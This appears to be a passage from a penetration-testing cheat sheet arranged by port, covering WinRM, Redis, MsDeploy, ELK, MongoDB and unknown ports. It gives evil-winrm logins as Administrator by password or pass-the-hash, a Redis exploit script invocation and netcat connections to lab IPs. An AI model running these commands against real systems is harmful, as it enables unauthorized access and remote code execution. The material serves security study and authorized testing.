### 5985 - WinRM
---

```bash
# https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

<br>

### 6379 - Redis
---

```bash
# https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis
```

<br>

### 8172 - MsDeploy

---
```bash
# Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```

<br>

### 5601/9200
---

[ELK](webservices/elk.md)

<br>

### 27017-19/27080/28017 - MongoDB
---

[MongoDB](webservices/nosql-and-and-mongodb.md)

## Unknown ports
---

* `amap -d 10.11.1.111 8000`
* netcat: makes connections to ports. Can echo strings or give shells: `nc -nv 10.11.1.111 110`
* sfuzz: can connect to ports, udp or tcp, refrain from closing a connection, using basic HTTP configurations

## RCE ports
---

![](<../.gitbook/assets/image (1).png>)
